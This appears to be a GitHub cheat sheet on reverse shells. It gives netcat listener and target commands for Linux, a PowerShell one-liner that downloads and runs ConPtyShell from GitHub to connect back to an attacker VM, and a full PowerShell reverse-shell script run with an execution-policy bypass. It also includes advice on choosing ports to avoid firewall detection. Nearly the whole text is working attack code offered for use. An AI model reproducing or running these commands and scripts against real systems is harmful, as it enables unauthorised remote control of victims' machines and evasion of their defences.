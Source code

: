 # Reverse-Shell With NetCat

### Command for NetCat `nc`

#### CMD Flag options:

**Flags:** 
-	**l** = listen, 
-	**n** = no dns / ip address only, 
-	**v**  = verbose (whatever happens, tell us everything)
-	**p** = port number ( to AVOID FIREWALL DETECTION use under 1000 port )
-	**s** = source (interface)
-	**e** = to execute after a connection has been established (deprecated on new linux systems)
-	**87** = port specified
  
### Host

`nc -lnvp 87 -s attackerVMIP`

### Target

`nc -e /bin/bash attackerVMIP 87`

command above basically means netcat `nc`,  execute `-e`, access to bash `/bin/bash`, give access to attacker vm ip `attackerVMIP`, on port `87`

## Targeting Windows Machine Script

To achieve similar functionality to the `nc -e /bin/bash attackerVMIpAddress 87` command on a Windows system without Netcat installed, you can use PowerShell along with a reverse shell payload. This payload will establish a reverse shell connection to your attacker VM.
Two ways:

### One

#### Attacker:

`stty raw -echo; (stty size; cat) | nc -lnvp 87 -s attackerVMIP`

#### Victim:

`IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell attackerVMIP 87`

### Two

#### Here's a basic PowerShell script to accomplish this:
```powershell
# Define the IP address and port of your attacker VM
$AttackerIPAddress = "attackerVMIpAddress"
$AttackerPort = 87

# Create a TCP client object and connect to the attacker VM
$Client = New-Object System.Net.Sockets.TcpClient($AttackerIPAddress, $AttackerPort)
$Stream = $Client.GetStream()
$Reader = New-Object System.IO.StreamReader($Stream)
$Writer = New-Object System.IO.StreamWriter($Stream)

# Start a shell process and redirect input/output to the TCP client stream
$Process = New-Object System.Diagnostics.Process
$Process.StartInfo.FileName = "cmd.exe"
$Process.StartInfo.UseShellExecute = $false
$Process.StartInfo.RedirectStandardInput = $true
$Process.StartInfo.RedirectStandardOutput = $true
$Process.StartInfo.CreateNoWindow = $true
$Process.Start()

# Create separate threads to handle input/output redirection
$StreamReaderThread = [System.Threading.Thread]::new({
    while ($true) {
        $Output = $Process.StandardOutput.ReadLine()
        $Writer.WriteLine($Output)
        $Writer.Flush()
    }
})

$StreamWriterThread = [System.Threading.Thread]::new({
    while ($true) {
        $Input = $Reader.ReadLine()
        $Process.StandardInput.WriteLine($Input)
        $Process.StandardInput.Flush()
    }
})

# Start the threads
$StreamReaderThread.Start()
$StreamWriterThread.Start()

# Wait for the threads to complete (never)
$StreamReaderThread.Join()
$StreamWriterThread.Join()
```

##### Save this script with a `.ps1` extension (e.g., `reverse_shell.ps1`). Then, you can run it from a PowerShell prompt:

```powershell
powershell -ExecutionPolicy Bypass -File reverse_shell.ps1
```

**This script establishes a TCP connection to your attacker VM's IP address and port specified. It then starts a shell process (`cmd.exe`) and redirects its input/output to the TCP client stream, effectively creating a reverse shell connection.**

